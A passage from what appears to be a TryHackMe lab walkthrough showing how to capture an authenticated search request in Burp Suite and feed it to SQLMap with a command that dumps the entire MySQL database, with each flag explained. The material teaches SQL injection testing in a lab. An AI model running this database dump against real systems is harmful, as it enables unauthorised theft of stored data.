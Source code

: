 First we need to intercept a request made to the search feature using [BurpSuite](https://tryhackme.com/room/learnburp).

!["ox4wJVH.png"](files/ox4wJVH.png)

Save this request into a text file. We can then pass this into SQLMap to use our authenticated user session.

~~~
sqlmap -r request.txt --dbms=mysql --dump
~~~

* `-r` uses the intercepted request you saved earlier
* `--dbms` tells SQLMap what type of database management system it is
* `--dump` attempts to outputs the entire database

!["iiQ7g9t.png"](files/iiQ7g9t.png)
